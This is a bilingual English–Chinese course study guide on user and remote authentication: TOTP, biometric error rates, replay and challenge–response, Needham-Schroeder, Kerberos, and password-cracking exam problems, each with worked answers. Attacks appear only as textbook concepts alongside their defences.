Q1. (Calculation) A TOTP token uses Step = 30 s and \(T_0=0\). (a) Which counter \(T\) is used at Unix time 1,700,000,029, and when does the code change? (b) Why does the verifier accept a small window of \(T\) values?Q1.（计算）TOTP 令牌使用步长 Step = 30 s 和 \(T_0=0\)。(a) 在 Unix 时间 1,700,000,029 时使用哪个计数器 \(T\)，验证码何时更换？(b) 为什么验证方要接受 \(T\) 个值的小窗口？
Answer
(a) \(T=\lfloor1{,}700{,}000{,}029/30\rfloor=56{,}666{,}667\) (remainder 19 s; the step covers 1,700,000,010 to 1,700,000,039). The code changes at 1,700,000,040, 11 s later. (b) Token and verifier clocks drift and network delay shifts the time of entry; accepting neighbouring steps tolerates this, and the verifier can record the drift and compensate.(a) \(T=\lfloor1{,}700{,}000{,}029/30\rfloor=56{,}666{,}667\)（余数为 19 s；该步覆盖 1,700,000,010 至 1,700,000,039）。验证码在 1,700,000,040 更换，即 11 s 之后。(b) 令牌与验证方的时钟会漂移，输入时刻也会因网络延迟而偏移；接受相邻的步长可以容忍这些偏差，验证方还可以记录漂移并加以补偿。
Q2. (Compare) Give two advantages of an authenticator app over SMS codes and two attacks on SMS codes.Q2.（比较）给出验证器应用相对于短信验证码的两个优点，以及针对短信验证码的两种攻击。
Answer
Advantages: the app works without mobile coverage or any network, and it does not send the secret over the phone network, where it can be intercepted or redirected. Attacks on SMS: a SIM swap transfers the victim's number to the attacker, who then receives the codes; a fake tower or SS7 attack intercepts messages; a stolen phone (with a known password) also receives them.优点：验证器应用无需移动网络覆盖，也不需要任何网络，并且不会通过电话网络发送秘密，因此不会被截获或重定向。针对短信的攻击：SIM 卡交换会把受害者的号码转移到攻击者手中，攻击者随之收到验证码；伪造基站或 SS7 攻击会截获消息；被盗的手机（连同已知的口令）同样会收到这些验证码。
Biometric authentication ★★生物特征认证
Goal. Distinguish verification from identification, compute FAR and FRR for a threshold, and explain spoofing and its defences.目标。 区分验证与标识，针对某个阈值计算 FAR 和 FRR，并解释欺骗攻击及其防御。
A biometric（生物特征）system recognises a static characteristic (face, fingerprint, hand geometry, retina, iris) or a dynamic one (signature, voice, typing rhythm). In enrollment the sensor extracts features and stores them as the user's template（模板）. Verification is one-to-one: the user claims an identity and the sample is compared with that user's template, as in a login. Identification is one-to-many: no identity is claimed and the sample is compared with all templates.生物特征系统识别的是静态特征（人脸、指纹、手形、视网膜、虹膜），或动态特征（签名、声音、打字节奏）。在注册时，传感器提取特征，并将其作为用户的模板存储。验证是一对一的：用户声称自己的身份，系统把采样与该用户的模板进行比对，登录即属于这种情况。标识是一对多的：用户不声称任何身份，系统把采样与所有模板进行比对。
Two samples never match exactly (noise, finger placement). The system computes a matching score \(s\) and accepts if \(s\ge t\) for a threshold \(t\). The false acceptance rate (FAR)（误接受率）is the fraction of impostor attempts accepted. The false rejection rate (FRR)（误拒绝率）is the fraction of genuine attempts rejected. Where the two rates are equal is the equal error rate (EER)（等错误率）.两次采样从来不会完全相同（噪声、手指放置位置等都会造成差异）。系统计算匹配分数 \(s\)，若其满足 \(s\ge t\)（阈值为 \(t\)）则接受。误接受率（FAR）是被接受的冒充尝试所占的比例。误拒绝率（FRR）是被拒绝的真实尝试所占的比例。两者相等时的错误率称为等错误率（EER）。
In words: FAR = wrongly accepted impostors divided by all impostor attempts; FRR = wrongly rejected genuine users divided by all genuine attempts.用文字表述：FAR = 被误接受的冒充者数 ÷ 全部冒充尝试次数；FRR = 被误拒绝的真实用户数 ÷ 全部真实尝试次数。
Spoofing: a replica finger, a photo or a recording is presented to the sensor. Defences: copy (liveness) detection at the capture device and authentication of the capture device. A biometric cannot be changed once stolen, so templates need protection. Identification multiplies the false-match risk by the number of templates compared.欺骗：向传感器出示手指复制品、照片或录音。防御手段包括：在采集设备上做伪造检测（活体检测），以及对采集设备本身进行认证。生物特征一旦被盗便无法更换，因此模板需要加以保护。标识会使误匹配风险随所比对的模板数量成倍增加。
Practice练习
Q1. (Calculation) In a test, 4,000 genuine attempts gave 120 rejections and 50,000 impostor attempts gave 25 acceptances. Find FRR and FAR. Which rate rises if the threshold is raised?Q1.（计算）在一次测试中，4,000 次真实尝试中有 120 次被拒绝，50,000 次冒名尝试中有 25 次被接受。求 FRR 和 FAR。若提高阈值，哪一个比率会上升？
Answer
\(\text{FRR}=120/4000=3\%\) and \(\text{FAR}=25/50{,}000=0.05\%\). A higher threshold is stricter: FAR falls and FRR rises.\(\text{FRR}=120/4000=3\%\) 和 \(\text{FAR}=25/50{,}000=0.05\%\)。更高的阈值更严格：FAR 下降，FRR 上升。
Q2. (Calculation) Genuine scores follow \(N(70,10^2)\) and impostor scores \(N(40,10^2)\); a bank uses \(t=65\). Find FRR and FAR and the expected errors in 1,000 genuine and 1,000 impostor attempts. Is \(t\) well chosen?Q2.（计算）真实分数服从 \(N(70,10^2)\)，冒名分数服从 \(N(40,10^2)\)；某银行采用 \(t=65\)。求 FRR、FAR，以及在 1,000 次真实尝试和 1,000 次冒名尝试中的期望错误数。\(t\) 的选择是否合理？
Answer
\(\text{FRR}=\Phi(-0.5)=30.85\%\), so about 309 false rejections per 1,000 genuine attempts. \(\text{FAR}=1-\Phi(2.5)=0.62\%\), about 6 false acceptances per 1,000 impostor attempts. Security is high but almost a third of customers are rejected; a threshold near 60 (FRR 15.9%, FAR 2.3%) may be a better compromise.\(\text{FRR}=\Phi(-0.5)=30.85\%\)，因此每 1,000 次真实尝试约有 309 次错误拒绝。\(\text{FAR}=1-\Phi(2.5)=0.62\%\)，每 1,000 次冒名尝试约有 6 次错误接受。安全性很高，但将近三分之一的客户被拒绝；阈值取 60 附近（FRR 15.9%，FAR 2.3%）可能是更好的折中。
Remote authentication: replay, challenge–response and key distribution ★★★远程认证：重放、挑战–应答与密钥分发
Goal. Describe a replay attack and the two defences, walk through a challenge-response login message by message, write the Needham-Schroeder messages, and explain Denning's timestamp fix and the suppress-replay attack.目标。 描述重放攻击及其两种防御方法，逐条消息地讲解挑战-应答登录过程，写出 Needham-Schroeder 协议的消息，并解释 Denning 的时间戳修补方案以及抑制重放攻击。
Step 1: replay attacks and the two defences第 1 步：重放攻击及两种防御
In words: a replay is a copy of an old valid message; freshness defeats it, by a clock (timestamp) or by a one-time number (nonce).用文字表述：重放就是把一条旧的有效消息的副本再次发送；新鲜性可以破解它，方法是使用时钟（时间戳）或一次性随机数（nonce）。
Four forms of replay:重放有四种形式：
- Simple: copy a message and send it later.简单重放：复制一条消息并稍后发送。
- Within the time window: replay a timestamped message while it is still valid. If both copies arrive, the repetition can be logged.在时间窗口内：在带时间戳的消息仍然有效时重放它。若两个副本都到达，这种重复可以被记录下来。
- With suppression: as in 2, but the opponent blocks the original, so the repetition cannot be detected.伴随压制：与上一种情况相同，但对手阻止了原始消息，因此这种重复无法被发现。
- Backward: return an unmodified message to its sender, possible with symmetric encryption when sent and received messages look alike.反向重放：将未经修改的消息返回给其发送方；当发送和接收的消息看起来相似时，对称加密下可能出现这种情况。
| Timestamps时间戳 | Challenge–response (nonce)挑战–应答（nonce） | |
|---|---|---|
| Idea核心思想 | the message is fresh if its timestamp is close to A's clock若消息的时间戳与 A 的时钟接近，则该消息是新鲜的 | A sends B a nonce（一次性随机数）and requires it in B's replyA 向 B 发送一个一次性随机数，并要求 B 的应答中包含该值 |
| Needs需要 | synchronised clocks; a window large enough for network delay yet small enough to limit attack时钟同步；窗口需要足够大以容纳网络延迟，又要足够小以限制攻击 | a handshake before any data在传输任何数据之前先进行握手 |
| Weakness缺点 | clock faults open attack windows (suppress-replay, below)时钟故障会打开攻击窗口（抑制重放，见下文） | none against replay, since future nonces are unpredictable对重放攻击无弱点，因为未来的 nonce 是不可预测的 |
Step 2: challenge-response, message by message第 2 步：挑战-应答，逐条消息讲解
In words: the host sends a fresh random number first; the answer must contain it, so an old answer does not fit the new question.用文字表述：主机先发送一个新鲜的随机数；应答必须包含它，因此旧的应答无法匹配新的问题。

Password protocol. The user's password is \(P\), the host stores \(h(P)\), and \(f(\cdot,\cdot)\) and \(h(\cdot)\) are agreed functions.口令协议。用户的口令为 \(P\)，主机存储 \(h(P)\)，\(f(\cdot,\cdot)\) 和 \(h(\cdot)\) 是双方约定的函数。
- User to host: the ID.用户发送给主机：ID。
- Host to user: a random \(r\) (say 5821) and the functions \(h\) and \(f\).主机发送给用户：随机数 \(r\)（例如 5821）以及函数 \(h\) 和 \(f\)。
- User to host: \(f(r', h(P'))\), computed from the typed password and the received \(r'\).用户发送给主机：\(f(r', h(P'))\)，由输入的口令和收到的 \(r'\) 计算得出。
- The host computes \(f(r, h(P(U)))\) from its stored \(h(P(U))\) and accepts if both values are equal.主机根据其存储的 \(h(P(U))\) 计算 \(f(r, h(P(U)))\)，若两个值相等则接受。
Replay attempt. Eve recorded step 3 of the first login. In her login the host sends \(r=9034\). Eve resends the recorded answer, which contains 5821. The host computes \(f(9034,h(P))\), finds a different value and rejects. Eve cannot compute the right answer without \(h(P)\), and \(h(P)\) itself was never sent.重放尝试。Eve 录下了第一次登录的第 3 步。在她自己的登录中，主机发送 \(r=9034\)。Eve 重新发送录下的应答，其中包含 5821。主机计算出 \(f(9034,h(P))\)，发现与之不同，于是拒绝。没有 \(h(P)\)，Eve 算不出正确的应答；而且 \(h(P)\) 本身从未被发送过。
| Authenticator认证器 | Challenge挑战 | Response应答 | Host checks主机检查 |
|---|---|---|---|
| Password口令 | \(r\) and the functions \(h(\cdot)\), \(f(\cdot,\cdot)\) | \(f(r',h(P'))\) | equals \(f(r,h(P(U)))\), computed from the stored \(h(P(U))\)等于 \(f(r,h(P(U)))\)，由存储的 \(h(P(U))\) 计算得出 |
| Token令牌 | \(r\), \(h\), \(f\) | \(f(r',h(W'))\), where \(W'\) is the token's static or one-time passcode, released after the user enters a password known only to user and token\(f(r',h(W'))\)，其中 \(W'\) 是令牌的静态口令或一次性口令，在用户输入仅用户与令牌共享的口令之后释放 | stored \(h(W(U))\), or the hash of its own synchronised passcode存储的 \(h(W(U))\)，或其自身同步口令的哈希 |
| Static biometric静态生物特征 | \(r\) and an encryption function \(E\) | \(E(r',D',BT')\): nonce, biometric device ID, freshly captured template\(E(r',D',BT')\)：nonce、生物特征设备 ID、新采集的模板 | \(r'=r\), device \(D'\) authentic, match score above the threshold\(r'=r\)，设备 \(D'\) 真实可信，匹配分数高于阈值 |
| Dynamic biometric动态生物特征 | \(r\) and a random sequence \(x\) | encrypted \(r'\) and the signal \(BS'(x')\) made by speaking, typing or writing \(x\)加密后的 \(r'\)，以及用户通过说话、打字或书写 \(x\) 产生的信号 \(BS'(x')\) | \(r'=r\); \(BS'(x')\) matches the stored template and \(x\) above a threshold\(r'=r\)；\(BS'(x')\) 与存储的模板匹配，且 \(x\) 高于阈值 |
A static template could be injected by a fake device, so the capture device is authenticated. A dynamic signal depends on a fresh random sequence, so a recording cannot match a new challenge.静态模板可能被伪造设备注入，因此要对采集设备进行认证。动态信号依赖于新鲜的随机序列，因此录音无法匹配新的挑战。
Step 3: attacks on user authentication第 3 步：针对用户认证的攻击
| Attack攻击 | Example示例 | Typical defence典型防御 |
|---|---|---|
| Client attack客户端攻击 | guess or exhaust a password; false match on a biometric猜测或穷举口令；生物特征的误匹配 | high-entropy secrets; limited attempts; a token needs physical presence高熵秘密；限制尝试次数；令牌需要物理在场 |
| Host attack主机攻击 | steal the password file, token passcodes or biometric templates窃取口令文件、令牌口令或生物特征模板 | salted hashing, file protection; one-time passcodes; device authentication and challenge–response for biometrics加盐哈希、文件保护；一次性口令；针对生物特征的设备认证和挑战–应答 |
| Eavesdropping, theft, copying窃听、窃取、复制 | shoulder surfing, keylogging; stolen or cloned token; copied biometric (spoofing)肩窥、键盘记录；令牌被窃或被克隆；生物特征被复制（欺骗） | multifactor authentication; tamper-resistant tokens; copy detection, device authentication多因素认证；防篡改令牌；复制检测、设备认证 |
| Replay重放 | resend a captured password response, passcode or biometric template重新发送已截获的口令应答、口令或生物特征模板 | challenge–response; one-time passcodes挑战–应答；一次性口令 |
| Trojan horse特洛伊木马 | rogue ATM, login program or capture device collects secrets恶意 ATM、登录程序或采集设备窃取秘密 | authenticate client or device inside a trusted perimeter在可信边界内对客户端或设备进行认证 |
| Denial of service拒绝服务 | flood the service or lock out a user by deliberate failures通过大量请求淹没服务，或通过蓄意失败使用户被锁定 | multifactor authentication with a token使用令牌的多因素认证 |
Step 4: mutual authentication with a key distribution center第 4 步：借助密钥分发中心的双向认证
In words: a KDC shares a long-term key with everyone and hands out a short-lived session key that A and B use to talk.用文字表述：KDC 与每个人共享一个长期密钥，并发放一个短期会话密钥，供 A 和 B 通信使用。
A key distribution center (KDC)（密钥分发中心）shares a master key with each party (\(K_a\) with A, \(K_b\) with B) and delivers session keys \(K_s\) under them. Below, \(N_1\) and \(N_2\) are nonces, \(T\) is a timestamp and \(f(\cdot)\) is a simple function such as an increment. The Needham-Schroeder protocol has five messages.密钥分发中心（KDC）与每一方共享一个主密钥（与 A 共享的是 \(K_a\)，与 B 共享的是 \(K_b\)），并在这些主密钥的保护下分发会话密钥 \(K_s\)。下文中，\(N_1\) 和 \(N_2\) 为一次性随机数，\(T\) 为时间戳，\(f(\cdot)\) 为一个简单函数，例如加一。Needham-Schroeder 协议包含五条消息。
1. A -> KDC: ID_A || ID_B || N1
2. KDC -> A: E(Ka, [Ks || ID_B || N1 || E(Kb, [Ks || ID_A])])
3. A -> B: E(Kb, [Ks || ID_A])
4. B -> A: E(Ks, N2)
5. A -> B: E(Ks, f(N2))
\(N_1\) shows that message 2 is fresh. \(ID_B\) shows whom the key is for. Only B can read message 3. Messages 4 and 5 show that both know \(K_s\).\(N_1\) 表明消息 2 是新鲜的。\(ID_B\) 表明该密钥是给谁的。只有 B 能够读取消息 3。消息 4 和消息 5 表明双方都知道 \(K_s\)。
Weakness. An opponent X has learned an old session key. X replays the old message 3. B cannot tell it from a fresh one unless it remembers every old key. X answers message 4 and impersonates A.弱点。对手 X 获得了一个旧的会话密钥。X 重放旧的消息 3。除非 B 记住每一个旧密钥，否则它无法将其与新鲜消息区分开。X 回复消息 4，从而冒充 A。
Denning's fix puts a timestamp \(T\) inside the encrypted parts of messages 2 and 3. Message 3 becomes \(E(K_b,[K_s\Vert ID_A\Vert T])\). Both parties check:Denning 的修补方案把时间戳 \(T\) 放入消息 2 和消息 3 的加密部分。消息 3 变为 \(E(K_b,[K_s\Vert ID_A\Vert T])\)。双方都要检查：
The price is synchronised clocks. If the sender's clock is ahead of the recipient's, an opponent captures a message and replays it when its timestamp becomes current at the recipient. This is a suppress-replay attack（抑制重放攻击）. Remedies: check clocks regularly against the KDC, or use nonce handshakes.代价是需要时钟同步。若发送方的时钟快于接收方，对手就可以截获一条消息，等到它的时间戳在接收方看来恰好有效时再重放。这就是抑制重放攻击。补救办法包括：定期与 KDC 校对时钟，或使用一次性随机数握手。
Practice练习
Q1. (Explain) A server asks for a password sent encrypted under a key shared with the server. Why does this not prevent replay, and how does \(f(r,h(P))\) fix it?Q1.（解释）服务器要求以与服务器共享的密钥加密后发送口令。为什么这无法防止重放？\(f(r,h(P))\) 又如何修正这一问题？
Answer
An eavesdropper copies the ciphertext and resubmits it; the server decrypts the same valid password. The encrypted password is, in effect, the password. In the challenge–response protocol the host sends a fresh random \(r\) each time, and the response \(f(r,h(P))\) is valid only for that \(r\), so a recorded response fails against the next challenge. \(h(P)\) itself is never sent.窃听者复制密文并重新提交；服务器解密后得到的仍是同一个有效口令。加密后的口令实际上就等同于口令本身。在挑战–应答协议中，主机每次都发送新的随机 \(r\)，而应答 \(f(r,h(P))\) 仅对该 \(r\) 有效，因此录制下来的应答无法通过下一次挑战的验证。\(h(P)\) 本身从不被发送。
Q2. (Compare) Compare timestamps and nonces for freshness: requirements, weaknesses, where each fits.Q2.（比较）比较时间戳与 nonce 在保证新鲜性方面的差异：要求、弱点，以及各自适用的场景。
Answer
Timestamps need synchronised clocks and a time window; they fit connectionless messages (e-mail) and are weak against clock faults and suppress-replay. Nonces need a request–response handshake, which suits connection-oriented sessions and costs a round trip; they need no clocks, and a nonce chosen in the future is unpredictable to an attacker, so they are not open to suppress-replay.时间戳需要时钟同步和时间窗口；它适用于无连接的消息（例如电子邮件），但对时钟故障和抑制重放较为脆弱。nonce 需要请求–应答握手，适用于面向连接的会话，并需要一个往返的时间；它不需要时钟，而且对攻击者来说，未来选择的 nonce 是不可预测的，因此不受抑制重放的影响。
Q3. (Calculation) In Denning's protocol \(\Delta t_1=2\) s and \(\Delta t_2=3\) s. B receives step 3 messages whose timestamps differ from B's clock by 4 s and by 6 s. Decide each, and say what happens to a replay of step 3 an hour later made with a compromised old key.Q3.（计算）在 Denning 协议中，\(\Delta t_1=2\) s 且 \(\Delta t_2=3\) s。B 收到的第 3 步消息，其时间戳与 B 的时钟分别相差 4 s 和 6 s。请判定每一条消息，并说明一个小时后、由已泄露的旧密钥生成的第 3 步重放会发生什么。
Answer
B accepts iff \(\lvert\text{Clock}-T\rvert<2+3=5\) s. The 4 s message is accepted; the 6 s message is rejected as untimely. An hour-old replay is rejected even though the opponent knows the old \(K_s\), because \(T\) is inside the part encrypted under \(K_b\) and cannot be updated. The plain Needham–Schroeder protocol would accept it.当且仅当 \(\lvert\text{Clock}-T\rvert<2+3=5\) s 时 B 才接受。4 s 的消息被接受；6 s 的消息因过时而被拒绝。一小时前的重放会被拒绝，即使对手知道旧的 \(K_s\)，因为 \(T\) 位于由 \(K_b\) 加密的部分之中，无法被更新。普通的 Needham–Schroeder 协议则会接受这一重放。
Kerberos, public-key protocols and federated identity ★★Kerberos、公钥协议与联合身份
Goal. Say what problem Kerberos solves, list the six version 4 messages with their contents, explain why a ticket and an authenticator are both needed, and name the main differences of version 5.目标。 说明 Kerberos 解决的问题，列出第 4 版的六条消息及其内容，解释为什么既需要票据又需要认证符，并说出第 5 版的主要区别。
In words: Kerberos = a trusted third party that lets a user log in once and then obtain tickets for many servers, using only symmetric encryption.用文字表述：Kerberos = 一个可信第三方，用户只需登录一次，之后即可为多个服务器获取票据，且只使用对称加密。
In an open network a workstation cannot be trusted to identify its user. Three threats: a user poses as another on a workstation; a user changes a workstation's network address to impersonate another machine; a user eavesdrops and replays messages. Kerberos authenticates users to servers and servers to users. The notation is: C the client, AS the authentication server, TGS the ticket-granting server, V the service server. \(K_c\) is derived from the user's password, and \(K_v\) and \(K_{tgs}\) are shared with V and the TGS. \(AD_C\) is C's network address and \(TS\) a timestamp.在开放网络中，不能相信工作站会正确识别其用户。存在三种威胁：用户在工作站上冒充另一个用户；用户更改工作站的网络地址，以冒充另一台机器；用户窃听并重放消息。Kerberos 让服务器认证用户，也让用户认证服务器。记号如下：C 为客户端，AS 为认证服务器，TGS 为票据授予服务器，V 为服务服务器。\(K_c\) 由用户口令导出，\(K_v\) 和 \(K_{tgs}\) 分别与 V 和 TGS 共享。\(AD_C\) 为 C 的网络地址，\(TS\) 为时间戳。
(a) Authentication service exchange: ticket-granting ticket (once per logon)
(1) C -> AS: ID_C || ID_tgs || TS1
(2) AS -> C: E(Kc, [Kc,tgs || ID_tgs || TS2 || Lifetime2 || Ticket_tgs])
Ticket_tgs = E(Ktgs, [Kc,tgs || ID_C || AD_C || ID_tgs || TS2 || Lifetime2])
(b) Ticket-granting service exchange: service ticket (once per service type)
(3) C -> TGS: ID_v || Ticket_tgs || Authenticator_c
(4) TGS -> C: E(Kc,tgs, [Kc,v || ID_v || TS4 || Ticket_v])
Ticket_v = E(Kv, [Kc,v || ID_C || AD_C || ID_v || TS4 || Lifetime4])
Authenticator_c = E(Kc,tgs, [ID_C || AD_C || TS3])
(c) Client/server authentication exchange: service (once per service session)
(5) C -> V: Ticket_v || Authenticator_c
(6) V -> C: E(Kc,v, [TS5 + 1]) (optional, mutual authentication)
Authenticator_c = E(Kc,v, [ID_C || AD_C || TS5])

In (2) only C, who can derive \(K_c\) from the password, can read the session key \(K_{c,tgs}\). The ticket is opaque to C and readable only by the TGS. In (3) the TGS decrypts the ticket, recovers the session key, decrypts the authenticator and compares name and address. Message (4) mirrors (2). V repeats the checks in (5). In (6) V returns \(TS_5+1\), which shows that it knows \(K_{c,v}\) and that the reply is fresh.在 (2) 中，只有能从口令导出 \(K_c\) 的 C 才能读出会话密钥 \(K_{c,tgs}\)。票据对 C 来说是不透明的，只有 TGS 能读取它。在 (3) 中，TGS 解密票据，取出会话密钥，解密认证符，并比较名称和地址。消息 (4) 与 (2) 相对应。V 在 (5) 中重复这些检查。在 (6) 中，V 返回 \(TS_5+1\)，以证明它知道 \(K_{c,v}\)，并且该应答是新鲜的。
Ticket versus authenticator. The ticket is reusable until it expires, is encrypted under the server's key and carries the session key. It proves no identity. The authenticator is encrypted under the session key and holds ID, address and a fresh timestamp. It is used once and has a very short lifetime: "at time \(TS_3\) I use \(K_{c,tgs}\)". A stolen ticket is useless without the session key. A stolen authenticator is useless a moment later.票据与认证符的区别。票据在过期前可以反复使用，用服务器的密钥加密，并携带会话密钥，它本身不能证明任何身份。认证符用会话密钥加密，包含 ID、地址和一个新鲜的时间戳。认证符只使用一次，生命周期极短：“在时间 \(TS_3\)，我使用 \(K_{c,tgs}\)”。被盗的票据若没有会话密钥则毫无用处；被盗的认证符过一会儿也就失效了。
The three exchanges happen at different rates: (1)-(2) once per logon, (3)-(4) once per service type, (5)-(6) once per service session. The password only derives \(K_c\) and is never sent.三组交换的频率各不相同：(1)-(2) 每次登录一次，(3)-(4) 每类服务一次，(5)-(6) 每次服务会话一次。口令只用来导出 \(K_c\)，本身从不发送。
| Aspect方面 | Version 4第 4 版 | Version 5第 5 版 |
|---|---|---|
| Encryption加密 | DES only仅 DES | any cipher (e.g. AES)任意密码（例如 AES） |
| Ticket lifetime票据有效期 | 8 bits in units of 5 minutes: at most \(2^8\times5=1280\) min (21.3 h)8 位，以 5 分钟为单位：最长 \(2^8\times5=1280\) min（21.3 h） | explicit start and end times明确的起止时间 |
| Forwarding转发 | not possible不可能 | allowed允许 |
| Interrealm跨域 | \(N(N-1)/2\) relationships | fewer relationships关系更少 |
| Ticket encryption票据加密 | tickets encrypted twice in (2) and (4)在 (2) 和 (4) 中，票据被加密两次 | once一次 |
| Mode模式 | nonstandard PCBC, open to swapping ciphertext blocks非标准的 PCBC，易受密文分组交换攻击 | standard CBC plus explicit checksum or hash标准 CBC，加上显式校验和或哈希 |
| Session keys会话密钥 | one ticket key reused, so old sessions can be replayed票据密钥被重复使用，因此旧会话可被重放 | per-connection subsession key每个连接一个子会话密钥 |
| Password attacks口令攻击 | offline guessing of the AS reply对 AS 应答进行离线猜测 | same, made harder by preauthentication同样的攻击，但预认证使其更加困难 |
A realm is a set of managed nodes sharing one Kerberos database. For interrealm use, two Kerberos servers share a secret key and trust each other.管辖域（realm）是共享同一个 Kerberos 数据库的一组受管节点。若要跨域使用，两台 Kerberos 服务器共享一个密钥，并相互信任。
Practice练习
Q1. (Trace) In version 4, who can decrypt messages (2), (4) and (6), and what does the reader learn?Q1.（手工演算）在第 4 版中，谁能解密消息 (2)、(4) 和 (6)？读者能获知什么？
Answer
(2) is encrypted under \(K_c\), derived from the user's password, so only the genuine client can read it. It learns \(K_{c,tgs}\), the TGS name and the lifetime, and receives \(\text{Ticket}_{tgs}\) that is opaque to it (encrypted under \(K_{tgs}\)). (4) is encrypted under \(K_{c,tgs}\): the client learns \(K_{c,v}\) and receives \(\text{Ticket}_v\), opaque and readable only by V. (6) is encrypted under \(K_{c,v}\): C checks that it contains \(TS_5+1\), which proves that V knows the key and that the reply is fresh.(2) 由 \(K_c\) 加密，该密钥由用户口令导出，因此只有真正的客户端能够读取。客户端获知 \(K_{c,tgs}\)（TGS 名称）和有效期，并收到对其不透明的 \(\text{Ticket}_{tgs}\)（用 \(K_{tgs}\) 加密）。(4) 由 \(K_{c,tgs}\) 加密：客户端获知 \(K_{c,v}\)，并收到 \(\text{Ticket}_v\)，它对客户端不透明，只有 V 能读取。(6) 由 \(K_{c,v}\) 加密：C 检查其中是否包含 \(TS_5+1\)，这证明 V 知道该密钥，并且应答是新鲜的。
Q2. (Explain) Why does Kerberos need an authenticator as well as a ticket, and why is the address in the ticket not enough?Q2.（解释）为什么 Kerberos 除了票据还需要认证符？为什么票据中的地址并不足够？
Answer
A ticket is reusable until it expires, so anyone who captures it could present it. The authenticator is encrypted under the session key and holds a fresh timestamp; it is used once and has a very short lifetime, so it shows that the presenter holds the session key now. The address in the ticket stops use from another workstation, but an opponent can forge an address; a forged address cannot supply the session key.票据在过期前都可以重复使用，因此任何截获它的人都可以出示。认证符以会话密钥加密，并包含一个新鲜的时间戳；它只使用一次，且有效期极短，因此它证明出示者此刻持有会话密钥。票据中的地址可以阻止其在另一台工作站上被使用，但对手可以伪造地址；而伪造的地址无法提供会话密钥。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Mutual authentication双向认证 | Both parties prove identity and exchange session keys; needs confidentiality and timeliness双方都证明身份并交换会话密钥；需要机密性和时效性 |
| NIST assurance levelsNIST 保证级别 | AAL1 password; AAL2 two factors; AAL3 hardware key that resists verifier impersonationAAL1 为口令；AAL2 为两个因素；AAL3 为可抵抗验证方被冒充的硬件密钥 |
| Slow hash family慢速散列族 | PBKDF2, scrypt and Argon2 follow Bcrypt: a tunable cost makes each guess expensivePBKDF2、scrypt 和 Argon2 沿袭 Bcrypt：可调的代价参数使每次猜测都很昂贵 |
| Hellman tableHellman 表 | One reduction function per table, so chains merge; about \(t\) tables and \(t^2\) hashes. Rainbow tables need one table and half the hashing每张表只用一个归约函数，因此链会合并；约需 \(t\) 张表和 \(t^2\) 次散列。彩虹表只需一张表，散列计算量减半 |
| Proactive and reactive checking主动检查与事后检查 | Proactive rejects weak passwords at selection. Reactive runs a cracker later and cancels the guessed ones主动检查在口令选定时就拒绝弱口令。事后检查稍后运行破解程序，并作废被猜出的口令 |
| SIM swapSIM 卡换卡 | The victim's number is moved to the attacker's SIM; it breaks SMS codes受害者的号码被转移到攻击者的 SIM 卡上，从而使短信验证码失效 |
| Prompt bombing推送轰炸 | Flooding the user with approval requests until one is accepted向用户不断发送授权请求，直到其中一个被接受 |
| Public-key protocol公钥协议 | The AS supplies signed certificates, not session keys. A signs \(K_s\), so the AS cannot expose itAS 提供的是签名证书，而不是会话密钥。A 对 \(K_s\) 签名，因此 AS 无法泄露它 |
| Federated identity联合身份 | Single sign-on across domains: the user logs in once in the source domain, and identity mapping translates attributes跨域单点登录：用户在源域登录一次，由身份映射把属性转换为目标域所需的形式 |
| Identity provider身份提供方 | The party that authenticates the principal; service providers use its identity data for authorization负责认证主体的一方；服务提供方利用其身份数据进行授权 |
| Principal主体 | A user or service known to Kerberos, named by name, instance and realmKerberos 所知的用户或服务，由名称、实例和管辖域唯一标识 |
| Subsession key子会话密钥 | Kerberos 5: a per-connection key, so old sessions cannot be replayedKerberos 第 5 版：每个连接使用一个密钥，因此旧的会话无法被重放 |
Exam-style questions考试题型练习
Q1. (Password storage and cracking, 15 marks) A site stores unsalted 64-bit hashes of passwords of exactly 6 lowercase letters. (a) Give the number of candidate passwords and the average brute-force work. (3) (b) An attacker builds a rainbow table with chains of length \(t=1000\). Find the number of stored pairs, the memory (12 bytes per pair), and the worst-case hash evaluations per lookup; compare with a full table (14 bytes per entry). (5) (c) The site adds a random 12-bit salt per user. What happens to the attack? (3) (d) State the time–memory relation and what the chains give up. (2) (e) An attacker tries the 3 most popular passwords against \(10^6\) accounts, 1% of which use the most popular one. Why does a lockout after 5 failures not help, and how many accounts fall? (2)Q1.（口令存储与破解，15 分）某网站存储的是恰好由 6 个小写字母组成的口令的无盐 64 位哈希。(a) 给出候选口令的数量以及平均暴力破解工作量。（3 分）(b) 攻击者构造了链长为 \(t=1000\) 的彩虹表。求存储的配对数、所需内存（每对 12 字节），以及每次查找的最坏情况哈希计算次数；并与完整表（每项 14 字节）进行比较。（5 分）(c) 网站为每个用户添加一个随机的 12 位盐值。攻击会受到什么影响？（3 分）(d) 说明时间-存储关系，以及链放弃了什么。（2 分）(e) 攻击者用 3 个最常见的口令尝试攻击 \(10^6\) 个账户，其中 1% 的账户使用最常见的那个口令。为什么 5 次失败后锁定账户无效？有多少账户会被攻破？（2 分）
Answer
(a) \(N=26^6=308{,}915{,}776\); the average brute force is \((N+1)/2\approx1.54\times10^{8}\) hashes.(a) \(N=26^6=308{,}915{,}776\)；平均暴力破解为 \((N+1)/2\approx1.54\times10^{8}\) 次哈希。
(b) \(M=N/t\approx308{,}916\) pairs, i.e. \(308{,}916\times12\approx3.7\) MB. A lookup needs at most \(t(t-1)/2=499{,}500\) hash evaluations, about 300 times less than the brute-force average. A full table holds \(3.09\times10^{8}\) entries, \(\approx4.3\) GB. The chains use 1000 times fewer entries.(b) \(M=N/t\approx308{,}916\) 对，即 \(308{,}916\times12\approx3.7\) MB。每次查找最多需要 \(t(t-1)/2=499{,}500\) 次哈希计算，比暴力破解的平均次数少约 300 倍。完整表包含 \(3.09\times10^{8}\) 个表项，即 \(\approx4.3\) GB。链所用的表项数少了 1000 倍。
